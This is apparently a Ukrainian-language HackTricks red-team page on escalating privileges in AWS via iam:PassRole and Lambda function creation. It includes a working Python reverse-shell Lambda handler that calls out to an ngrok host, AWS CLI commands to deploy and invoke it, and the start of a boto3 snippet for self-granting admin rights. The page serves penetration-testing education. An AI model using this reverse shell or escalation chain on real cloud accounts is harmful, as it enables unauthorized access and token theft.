 # AWS - Привілеювання в AWS Lambda

<details><summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

## lambda

Додаткова інформація про lambda в:

{% content-ref url="../../aws-security/aws-services/aws-lambda-enum.md" %}
[aws-lambda-enum.md](../../aws-security/aws-services/aws-lambda-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `lambda:CreateFunction`, (`lambda:InvokeFunction` | `lambda:InvokeFunctionUrl`)

Користувачі з дозволами **`iam:PassRole`, `lambda:CreateFunction` та `lambda:InvokeFunction`** можуть підвищити свої привілеї.\
Вони можуть **створити нову функцію Lambda та призначити їй існуючу роль IAM**, надаючи функції дозволи, пов'язані з цією роллю. Користувач може **написати та завантажити код до цієї функції Lambda (наприклад, з оборотним shell)**.\
Після налаштування функції користувач може **запустити її виконання** та необхідні дії, викликавши функцію Lambda через API AWS. Цей підхід ефективно дозволяє користувачеві виконувати завдання опосередковано через функцію Lambda, працюючи на рівні доступу, наданого роллю IAM, пов'язаною з нею.\\

Атакувальник може скористатися цим, щоб отримати **оборотний shell та вкрасти токен**:

{% code title="rev.py" %}
```python
import socket,subprocess,os,time
def lambda_handler(event, context):
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(('4.tcp.ngrok.io',14305))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(['/bin/sh','-i'])
time.sleep(900)
return 0
```
{% endcode %}
```bash
# Zip the rev shell
zip "rev.zip" "rev.py"

# Create the function
aws lambda create-function --function-name my_function \
--runtime python3.9 --role <arn_of_lambda_role> \
--handler rev.lambda_handler --zip-file fileb://rev.zip

# Invoke the function
aws lambda invoke --function-name my_function output.txt
## If you have the lambda:InvokeFunctionUrl permission you need to expose the lambda inan URL and execute it via the URL

# List roles
aws iam list-attached-user-policies --user-name <user-name>
```
Ви також можете **зловживати дозволами ролі lambda** з самої функції lambda. Якщо у ролі lambda було достатньо дозволів, ви можете використати її, щоб надати собі права адміністратора:
```python
import boto3
def lambda_handler(event, context):
client = boto3.client('iam')
```